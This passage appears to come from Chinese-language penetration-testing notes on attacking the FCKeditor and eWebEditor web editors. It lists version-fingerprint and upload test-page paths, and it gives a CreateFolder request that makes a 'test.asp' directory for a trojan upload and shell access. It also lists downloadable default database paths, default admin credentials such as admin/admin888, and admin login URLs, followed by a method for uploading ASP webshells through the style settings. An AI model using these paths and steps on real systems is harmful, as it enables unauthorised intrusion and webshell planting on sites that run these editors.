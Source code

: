 ```
方法1：  /fckeditor/editor/dialog/fck_about.html
方法2：  /fckeditor/_whatsnew.htm
```

###### ②查看上传地址

```
/fckeditor/editor/filemanager/connectors/test.html
/fckeditor/editor/filemanager/connectors/uploadtest.html
/fckeditor/editor/filemanager/browser/default/connectors/test.html
/fckeditor/editor/filemanager/upload/test.html
```

###### ③验证漏洞

```
1. 在上传页面创建一个文件夹test.asp，结果变成了test_asp
2. 使用递归创建or二次创建
	指令：/fckeditor/editor/filemanager/connectors/asp/connectors.asp?command= CreateFolder&Type=类型&CurrentFolder=/一级目录名&Newfoldername=二级目录名
```

* 在一级目录`test.asp`中上传一个木马，然后就可以getshell了

#### (4). Ewebeditor

* 使用**默认的EWebEditor编辑器配置**安全风险最高，默认情况下其编辑器的**数据库可以通过浏览器下载**，一旦**破解其后台**管理账号和密码，则可以通过**修改其样式管理**，达到**上传asp网页木马**的目的

##### a. 默认信息

1. 默认数据库路径

   ```
   /db/ewebeditor.mdb
   /db/db.mdb
   /db/%23ewebeditor.mdb
   ```

2. 默认密码

   ```
   admin/admin888
   admin/admin
   admin/123456
   ```

3. 系统默认

   ```
   ewebeditor.asp?id=content1&style=standards
   ```

4. 默认管理地址

   ```
   2.80以前
   	ewebeditor/admin_login.asp
   以后版本
   	admin/login.asp
   ```
